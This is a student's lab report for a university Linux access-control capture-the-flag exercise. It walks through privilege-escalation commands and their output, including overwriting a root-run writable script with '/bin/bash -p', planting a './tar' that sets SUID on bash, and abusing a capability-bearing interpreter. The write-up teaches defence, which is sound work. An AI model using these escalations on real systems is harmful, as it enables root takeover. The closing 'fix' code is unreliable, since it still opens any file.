

# TP 3: Access Control CTF

> **University of Blida 1**  
> Computer Science Department, 4th year engineering  
> Computer Systems Security, TP 3  
> Lab report, 15 November 2026

## Overview

I worked inside the challenge container as `student` (uid 1001). I found five flags.

| Flag | Value |
|---|---|
| Flag 1 | `FLAG{hidden_files_are_not_access_control}` |
| Flag 2 | `FLAG{confused_deputy_reads_for_the_attacker}` |
| Flag 3 | `FLAG{least_privilege_is_not_optional}` |
| Flag 4 | `FLAG{root_should_never_execute_student_writable_code}` |
| Flag 5 | `FLAG{capabilities_can_be_more_precise_than_suid}` |

## Setup

I ran `sudo -l`. It shows the host `b1d7a230795f` and the user `student`. The shell is bash 5.2. I used `find`, `ls`, `cat`, `sudo`, `getcap`, and Python.

Two captures in `Helpful/` show the shell setup I used.

[](Helpful/Screenshot%202026-11-15%20140923.png)

*Shell upgrade with `pty.spawn`.*

[](Helpful/Screenshot%202026-11-15%20152616.png)

*Prompt setup with `PS1`.*

## Flag 1: Hidden does not mean protected

I searched from `/` for file names that contain `flag`:

```bash
find / -type f -name "*flag*" 2>/dev/null
```

The output included this file:

```text
/opt/lab/data/.cache/.old/.tmp/.flag1
```

[](flag1/Screenshot%202026-11-15%20140047.png)

*Search for file names that contain `flag`.*

I read the file:

```bash
cat /opt/lab/data/.cache/.old/.tmp/.flag1
```

```text
FLAG{hidden_files_are_not_access_control}
```

[](flag1/Screenshot%202026-11-15%20140105.png)

*The hidden path and the flag value.*

> **Flag 1:** `FLAG{hidden_files_are_not_access_control}`

The path has four dot directories: `.cache`, `.old`, `.tmp`, and `.flag1`. `ls` hides these names, but `find` walks the directories. The file was readable by `student`. The screenshots do not show its mode or owner.

Access depended on the file permissions. The dot name did not block `find` or `cat`.

**Impact:** anyone who can read the file or search the directory can read the flag.

**Remediation:** keep secrets out of the image, store them in a root-only file with mode `600`, and restrict the directory permissions.

## Flag 2: The confused deputy

I ran `ls -l` in `/opt/lab/bin`.

[](flag2/Screenshot%202026-11-15%20140254.png)

*Directory walk to `/opt/lab/bin` and the sudo policy.*

The listing shows:

```text
-rwsr-xr-x 1 root root 16408 Oct 18 09:56 read-vault
```

[](flag2/Screenshot%202026-11-15%20140604.png)

*`read-vault` has the SUID bit and is owned by root.*

`read-vault` has the SUID bit. When `student` runs it, the real UID stays 1001 and the effective UID becomes 0.

I ran it with the path argument:

```bash
./read-vault /root/flag2.txt
```

```text
[vault-reader] privileged read of: /root/flag2.txt
FLAG{confused_deputy_reads_for_the_attacker}
```

[](flag2/Screenshot%202026-11-15%20141039.png)

*Reading `/root/flag2.txt` with the SUID helper.*

> **Flag 2:** `FLAG{confused_deputy_reads_for_the_attacker}`

`read-vault` opens `argv[1]` with effective UID 0. It does not check whether the caller may read that file. `/root/flag2.txt` is root-only, but the helper read it.

I did not capture a run with no arguments.

**Impact:** any local user who can run the helper can read root-only files.

**Remediation:** remove SUID and use a service, or have the helper derive the allowed file from the caller's real UID with `getuid` and `getpwuid`, then open only that file with `O_NOFOLLOW`.

## Flag 3: Sudo and least privilege

The handout lists the backup script before the maintenance script. In my captures, Flag 3 came from the maintenance loop and Flag 4 from the backup script. The final table follows my captures.

The same policy lists this rule:

```text
(root) NOPASSWD: /opt/lab/bin/root-maintenance-loop.sh
```

I ran `ls -l` in `/opt/lab/bin`:

```text
-rwxrwxrwx 1 root root 20 Oct 24 16:42 maintenance.sh
-rwxr-xr-x 1 root root 77 Oct 18 09:56 root-maintenance-loop.sh
```

[](flag3/Screenshot%202026-11-15%20141212.png)

*`maintenance.sh` is world-writable.*

I ran `cat root-maintenance-loop.sh`:

```bash
#!/bin/bash
while true; do
    /opt/lab/bin/maintenance.sh
    sleep 10
done
```

[](flag3/Screenshot%202026-11-15%20141504.png)

*The loop calls the maintenance script every ten seconds.*

`maintenance.sh` was mode `777`, so I replaced it:

```bash
echo "/bin/bash -p" > maintenance.sh
```

[](flag3/Screenshot%202026-11-15%20141707.png)

*Replacing `maintenance.sh` with `/bin/bash -p`.*

I ran the loop:

```text
./root-maintenance-loop.sh
id
uid=1001(student) gid=1001(student) euid=0(root) groups=1001(student)
cat /root/flag3.txt
FLAG{least_privilege_is_not_optional}
```

[](flag3/Screenshot%202026-11-15%20141723.png)

*The shell after the loop has euid 0.*

[](flag3/Screenshot%202026-11-15%20141803.png)

*Reading the third flag.*

> **Flag 3:** `FLAG{least_privilege_is_not_optional}`

> **Evidence note:** the screenshot shows `./root-maintenance-loop.sh` with no visible `sudo` prefix. The exact command I used is not in my screenshots.

The loop calls `/opt/lab/bin/maintenance.sh` every ten seconds. The file was writable by any user. The shell after the loop had euid 0.

**Impact:** a user who can write the script can run commands as root.

**Remediation:** set `maintenance.sh` to mode `755` or `700`, run the loop as a dedicated user, and do not give sudo root on scripts that call writable files.

## Flag 4: Root executes what you can modify

I ran `cat /usr/local/bin/backup-report`. It runs this command:

```bash
./tar -cf /opt/lab/backups/student-backup.tar /opt/lab/data/* >/dev/null 2>&1
```

[](flag4/Screenshot%202026-11-15%20141904.png)

*The backup script and the sudo policy.*

`./tar` is a file in the current directory. This is relative-path command execution.

I created `tar` in `/home/student` and wrote the command into it:

```bash
cd /home/student
touch tar
echo "chmod u+s /bin/bash" > tar
```

[](flag4/Screenshot%202026-11-15%20142544.png)

*Creating `tar` in my home directory.*

[](flag4/Screenshot%202026-11-15%20142447.png)

*Writing the payload and running the backup job.*

I ran the backup job:

```text
sudo /usr/local/bin/backup-report
[backup] generating report...
[backup] report complete
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

The `ls` line shows that `/bin/bash` now has the SUID bit.

I then ran:

```text
/bin/bash -p
id
uid=1001(student) gid=1001(student) euid=0(root) groups=1001(student)
cat root/flag4.txt
cat: root/flag4.txt: No such file or directory
cat /root/flag4.txt
FLAG{root_should_never_execute_student_writable_code}
```

[](flag4/Screenshot%202026-11-15%20142648.png)

*Reading the fourth flag from the SUID shell.*

> **Flag 4:** `FLAG{root_should_never_execute_student_writable_code}`

`backup-report` ran as root and executed `./tar` from the current directory. The file contained `chmod u+s /bin/bash`. `/bin/bash -p` kept the effective UID at 0.

The screenshots do not show the mode of `tar`, the command that made it executable, or the owner, group, and mode of `backup-report`.

**Impact:** root command execution through a file in a directory the user can write.

**Remediation:** call `/usr/bin/tar`, run the backup from a root-owned directory, and run it as a dedicated user.

## Flag 5: Linux capabilities

I ran a capability search:

```bash
getcap -r / 2>/dev/null
```

```text
/opt/lab/bin/lab-python cap_dac_read_search=ep
```

[](flag5/Screenshot%202026-11-15%20143012.png)

*`getcap` finds `cap_dac_read_search` on `lab-python`.*

`cap_dac_read_search` lets the process bypass read and search checks. `ep` means the capability is effective and permitted.

I ran `/opt/lab/bin/lab-python` and used Python:

```text
$ /opt/lab/bin/lab-python
Python 3.12.3 ...
>>> import os
>>> os.listdir("/")
[...]
>>> os.listdir("/root")
['.bashrc', '.profile', '.bash_history', 'flag4.txt', 'flag3.txt', 'flag5.txt', 'flag2.txt']
>>> with open('/root/flag5.txt','r') as flag5: flag5.readlines()
['FLAG{capabilities_can_be_more_precise_than_suid}\n']
```

[](flag5/photo_2026-11-08_10-01-47.png)

*Full session from the 8 November photo on host `149251b24704`.*

> **Flag 5:** `FLAG{capabilities_can_be_more_precise_than_suid}`

The `/root` listing shows `flag2.txt` to `flag5.txt`. `flag1` is in `/opt/lab/data`.

The commands are in `flag5/lab-python.py`:

```python
import os
os.listdir("/")
os.listdir("/root")
with open('/root/flag5.txt','r') as flag5:
    flag5.readlines()
```

The script does not print the result. The interactive session shows the returned list.

**Impact:** any user who can run `lab-python` can read files they normally cannot.

**Remediation:** remove the capability, do not assign capabilities to interpreters, and use a small helper for the protected file.

## Final check

| Flag | Vulnerability | Mechanism | Privilege gained | Protected resource |
|---|---|---|---|---|
| Flag 1 | Hidden filename | `find` walks dot directories; the file was readable by `student` | None | `/opt/lab/data/.cache/.old/.tmp/.flag1` |
| Flag 2 | SUID helper without a caller check | `read-vault` opens `argv[1]` with effective UID 0 | Root file read (euid 0) | `/root/flag2.txt` |
| Flag 3 | Sudo rule for a loop that runs a writable script | The loop runs `maintenance.sh` (mode `777`), replaced with `/bin/bash -p` | Root shell (euid 0) | `/root/flag3.txt` |
| Flag 4 | Root runs a file from the current directory | `backup-report` runs `./tar`; the payload sets SUID on bash | Root shell (euid 0) | `/root/flag4.txt` |
| Flag 5 | Capability on an interpreter | `cap_dac_read_search=ep` bypasses read checks | Read root-only files | `/root/flag5.txt` |

## Bonus: confused-deputy fix

For the bonus, I wrote `bonus flag/fixed read-vault.txt`. The code does this:

```c
uid = getuid(void);

if (uid == 0) {
    fp = fopen(argv[1], "r");
}

fp = fopen(argv[1], "r");
```

The note in `bonus flag/the fix.txt` says the fix was to check who is using the file before opening it.

The grader in `flag2/read-vault-content.txt` compiles `/home/student/read-vault-fixed.c` to `/opt/lab/bin/read-vault-fixed`, sets the owner to root and the mode to `4755`. It then runs three checks as `student`:

- `student.log`: output contains `JOURNAL: student`
- `/root/flag2.txt`: output does not contain `FLAG{`
- `analyst.log`: output does not contain `ANALYST-JOURNAL`

No grader output is included in the project.

